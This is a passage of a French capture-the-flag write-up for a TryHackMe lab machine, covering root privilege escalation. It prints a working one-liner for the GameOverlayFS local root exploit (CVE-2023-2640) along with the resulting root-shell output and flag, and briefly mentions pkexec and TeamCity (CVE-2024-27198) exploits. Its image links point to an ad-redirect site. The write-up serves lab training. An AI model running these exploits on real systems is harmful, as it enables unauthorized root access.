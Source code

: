 
### Méthode 1: Exploitation de GameOverlayFs(CVE-2023-2640)
Un système est susceptible d'être vulnérable a cette vulnerabilite si la version du noyau est inférieure à `6.2`. Alors que notre Machine est `4.15.0-135-generic` donc exploitable.

Cette vulnérabilité affecte exclusivement les systèmes basés sur Linux. Le moyen le plus simple de vérifier si votre système est vulnérable est de voir quelle version du noyau Linux il utilise en exécutant la commande `uname -r`.

Tout d'abord je vais verifier si la version  est inferieur a `6.2`

```sh
sys-internal@vulnnet-internal:/home$ uname -r
4.15.0-135-generic
```

On a une version `4.15` donc vulnerable alors je vais essayer de l'exploiter
- Pour cela, je me rends dans le `/tmp` et j'execute

```sh
sys-internal@vulnnet-internal:~$ cd /tmp
sys-internal@vulnnet-internal:/tmp$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

Cela me permet d'obtenir un shell en tant que `root`.

```sh
root@vulnnet-internal:/tmp# id
uid=0(root) gid=1000(sys-internal) groups=1000(sys-internal),24(cdrom)
root@vulnnet-internal:/tmp# whoami
root
root@vulnnet-internal:/tmp# ls /root
root.txt
root@vulnnet-internal:/tmp# cat /root/root.txt
THM{e8996faea46df09dba5676dd271c60bd}
```

### Méthode 2: Exploitation de pkexec(SUID)
En regardant Dans les `SUID`, il y a `pkexec`. 

[![pkexec](https://i.ibb.co/gvKGxh9/pk.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}

- Pour l'exploiter J'utilise un script Python3 disponible sur GitHub pour l'exploiter 

[![exploit pkexec](https://i.ibb.co/270b07D/explo.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}

### Méthode 3: Exploitation de TeamCity
Enfin, je vais explorer l'exploitation d'un serveur TeamCity. En utilisant un exploit pour la vulnérabilité **CVE-2024-27198** qui permet de contourner l'authentification sur TeamCity, j'obtiens des privilèges de super utilisateur en executant des commandes dans le serveur TeamCity.
